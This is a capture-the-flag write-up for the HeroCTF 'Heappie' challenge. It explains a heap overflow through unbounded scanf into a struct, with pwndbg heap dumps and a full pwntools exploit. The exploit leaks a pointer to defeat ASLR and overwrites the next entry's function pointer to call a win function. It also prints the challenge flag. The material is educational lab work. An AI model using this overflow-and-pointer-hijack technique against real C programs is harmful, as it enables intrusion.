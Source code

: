 https://ctftime.org/event/2496

# Heappie (pwn)

Heappie is a simple application that allows you to save and play your favorite songs. Find a way to exploit it and read the flag.

nc pwn.heroctf.fr 6000

## Analysis

We have a heap buffer overflow in `add_music`:

```C
printf("Enter music description: ");
scanf("%s", music->description);
```

We can see that `description` is the last member of the `Music` struct:

```C
typedef struct Music {
    void (*play)(struct Music*);

    char title[32];
    char artist[32];
    char description[128];
} Music;
```

This means that when we overflow it we will start writing into the next `Music`'s memory

We can test this with `vis_heap_chunks` in `pwndbg` by sending the following payload for the description:

```python
payload = b""
payload += b"B" * 128
payload += p64(elf.sym["win"]) # p64(0x000062fb82a151f9)
```

```
pwndbg> vis_heap_chunks
...
0x62fb84018290	0x0000000000000000	0x00000000000007e1	................
# Music[0] @ 0x62fb840182a8
0x62fb840182a0	0x000062fb82a152e9	0x0000000000000041	.R...b..A.......
0x62fb840182b0	0x0000000000000000	0x0000000000000000	................
0x62fb840182c0	0x0000000000000000	0x0000000000000041	........A.......
0x62fb840182d0	0x0000000000000000	0x0000000000000000	................
0x62fb840182e0	0x0000000000000000	0x0000000000000041	........A.......
0x62fb840182f0	0x0000000000000000	0x0000000000000000	................
0x62fb84018300	0x0000000000000000	0x0000000000000000	................
0x62fb84018310	0x0000000000000000	0x0000000000000000	................
0x62fb84018320	0x0000000000000000	0x0000000000000000	................
0x62fb84018330	0x0000000000000000	0x0000000000000000	................
0x62fb84018340	0x0000000000000000	0x0000000000000000	................
0x62fb84018350	0x0000000000000000	0x0000000000000000	................
0x62fb84018360	0x0000000000000000	0x0000000000000000	................
# Music[1] @ 0x62fb84018370
0x62fb84018370	0x0000000000000041	0x0000000000000000	A...............
0x62fb84018380	0x0000000000000000	0x0000000000000000	................
0x62fb84018390	0x0000000000000041	0x0000000000000000	A...............
0x62fb840183a0	0x0000000000000000	0x0000000000000000	................
0x62fb840183b0	0x4242424242424242	0x4242424242424242	BBBBBBBBBBBBBBBB
0x62fb840183c0	0x4242424242424242	0x4242424242424242	BBBBBBBBBBBBBBBB
0x62fb840183d0	0x4242424242424242	0x4242424242424242	BBBBBBBBBBBBBBBB
0x62fb840183e0	0x4242424242424242	0x4242424242424242	BBBBBBBBBBBBBBBB
0x62fb840183f0	0x4242424242424242	0x4242424242424242	BBBBBBBBBBBBBBBB
0x62fb84018400	0x4242424242424242	0x4242424242424242	BBBBBBBBBBBBBBBB
0x62fb84018410	0x4242424242424242	0x4242424242424242	BBBBBBBBBBBBBBBB
0x62fb84018420	0x4242424242424242	0x4242424242424242	BBBBBBBBBBBBBBBB
# Music[2] @ 0x62fb84018430
0x62fb84018430	0x000062fb82a151f9	0x0000000000000041	.Q...b..A.......
0x62fb84018440	0x0000000000000000	0x0000000000000000	................
0x62fb84018450	0x0000000000000000	0x0000000000000041	........A.......
0x62fb84018460	0x0000000000000000	0x0000000000000000	................
0x62fb84018470	0x0000000000000000	0x0000000000000041	........A.......
...
```

We can see the value of `0x000062fb82a151f9` or `win` at `0x62fb84018430` which is the location of the next `Music`'s `play` function pointer.

## Solution

1) Add music with a play function so we can leak its address
2) Compute the image base using `play_1`, `play_2` and `play_3` looking for a base aligned to a 4K boundry
3) Add music overflowing the description such that the next `Music`'s `play` function pointer is set equal to the address of the `win` function
4) Add music taking care not to overwrite the value in the `play` function pointer
5) Play the last `Music` in the list this will call `win`

```python
#!/usr/bin/env python3

from pwn import *
import ctypes

#context.log_level = "debug"
elf = ELF("./heappie", checksec=False)
context.binary = elf

#p = elf.process()
#p = elf.debug(gdbscript="")
p = remote("pwn.heroctf.fr", 6000)

def add_music(play, desc):
    p.sendlineafter(b">> ", b"1")
    p.sendlineafter(b"(y/n): ", play)
    p.sendlineafter(b"title: ", b"A")
    p.sendlineafter(b"artist: ", b"A")
    p.sendlineafter(b"description: ", desc)

def get_aslr_base():
    p.sendlineafter(b">> ", b"4")
    p.readuntil(b"song: ")
    leak = int(p.readline()[:-2].decode(), 16)
    base = leak - elf.sym["play_1"]
    if (base & 0xfff) == 0:
        return base
    base = leak - elf.sym["play_2"]
    if (base & 0xfff) == 0:
        return base
    base = leak - elf.sym["play_3"]
    return base

add_music(b"y", b"A")

elf.address = get_aslr_base()

payload = b""
payload += b"B" * 128
payload += p64(elf.sym["win"])
add_music(b"n", payload)

add_music(b"n", b"A")

p.sendlineafter(b">> ", b"2")
p.sendlineafter(b"index: ", b"2")
p.readuntil(b"Flag: ")
log.success(p.readline().decode()) # Hero{b4s1c_H3AP_0verfL0w!47280319}
```

## Flag
`Hero{b4s1c_H3AP_0verfL0w!47280319}`

smiley 2024/10/27

